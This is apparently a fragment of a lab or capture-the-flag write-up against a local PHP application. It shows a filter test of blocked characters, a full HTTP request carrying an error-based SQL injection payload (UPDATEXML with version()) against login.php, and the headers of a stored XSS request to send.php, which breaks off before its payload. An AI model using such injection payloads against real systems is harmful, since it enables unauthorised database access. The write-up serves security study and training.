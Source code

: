result:

```
Character 0 (48)not admitted
Character < (60)not admitted
Character = (61)not admitted
Character > (62)not admitted
Character   (32)not admitted
Character        (9)not admitted
Character 
 (10)not admitted
 (13)not admitted
Character 
           (11)not admitted
```

- Error based is exploitable:


```
POST /login.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 91
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=a123afc6ea52c42d65d0690bd583087b
Connection: keep-alive

username='or+UPDATEXML(rand(),CONCAT(CHAR(126),version(),CHAR(126)),null)+--+a&password=%27
```


### `Report.php` -> Stored XSS

```
POST /send.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 76
Cache-Control: max-age=0
sec-ch-ua: "Not.A/Brand";v="99", "Chromium";v="136"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/send.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=6593cb04eea292d0a2a2275b764ded90
Connection: keep-alive
```